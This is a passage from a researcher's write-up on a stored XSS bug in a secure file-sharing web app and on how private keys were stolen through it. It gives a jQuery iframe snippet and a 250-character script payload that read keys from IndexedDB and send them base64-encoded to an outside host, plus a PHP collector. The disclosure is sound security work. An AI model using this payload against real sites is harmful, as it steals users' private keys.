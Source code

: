 For this, I started an attempt on making [POST][http-methods] requests with the
private key data to a remote domain I own. Here I hit the first roadblock. The
name field only allows input up to 255 characters. Native JavaScript is quite
verbose with making a request, so some serious [golfing][codegolf] would be
required.

Soon I found out [jQuery][jquery] was included in the application, which allows
making super simple and short [Ajax][ajax] requests. Brilliant!

This didn't work out in the end though because of some set [CORS][cors] headers,
being a nice method for protecting against these kinds of things.

_Edit: Someone
[mentioned](https://www.reddit.com/r/netsec/comments/dnwudw/stealing_private_keys_from_a_secure_file_sharing/f5jg0x5/)
that this didn't work due to a misconfiguration on my server instead. I did set
the `Access-Control-Allow-Origin` header to `*` but that didn't fix it. I
then blindly assumed this was due to a CORS header on the company end._

Fun fact, this doesn't work against non-[Ajax][ajax] requests. Opting for a
[GET][http-methods] request with the data suffixed to the URL was perfectly fine, so I
choose to use [`iframes`][iframe]. I suffixed the data to the end of the URL
like `//example.com/?k=DATA`, and silently added an `iframe` to the page with
this link. The browser immediately loads this `iframe`, sending us our precious
data. This is what we need:

```javascript
$('body').append(
    '<iframe src="//example.com/?k=' +
    btoa(JSON.stringify(secret_data)) +
    '" />'
);
```

_Redirecting the user to the attacker's page using
[`window.location.href`][window-location] would work as well, but that looks
super suspicious._

Hurray! We're now remotely collecting someone's private key!

## Proof of Concept
Now that we've implemented these steps, let's build a proof of concept.

With some effort, I compressed the code from above into the following one-liner.
With my own short domain, it counts 250 characters, just below the 255 character
limit. Beautiful!

```html
<script>setTimeout(()=>indexedDB.open("companyname").onsuccess=(a)=>a.target.result.transaction(["keys"]).objectStore("keys").getAll().onsuccess=(b)=>$('body').append('<iframe src="//example.org?k='+btoa(JSON.stringify(b.target.result))+'">'),1);</script>
```

On the server-side I implemented a simple PHP script that retrieves the data we
suffixed to the URL, it parses it, pulls the key from the data and appends it to
a `keys.txt` file on my server. Nothing fancy.


[ajax]: https://developer.mozilla.org/en-US/docs/Web/Guide/AJAX
[codegolf]: https://en.wikipedia.org/wiki/Code_golf
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[ffsend]: https://github.com/timvisee/ffsend
[firefox-send]: https://send.firefox.com/
[http-methods]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods
[iframe]: https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe
[indexeddb]: https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API
[jquery]: https://jquery.com/
[private-key]: https://info.ssl.com/faq-what-is-a-private-key/
[window-location]: https://developer.mozilla.org/en-US/docs/Web/API/Window/location
[xss]: https://en.wikipedia.org/wiki/Cross-site_scripting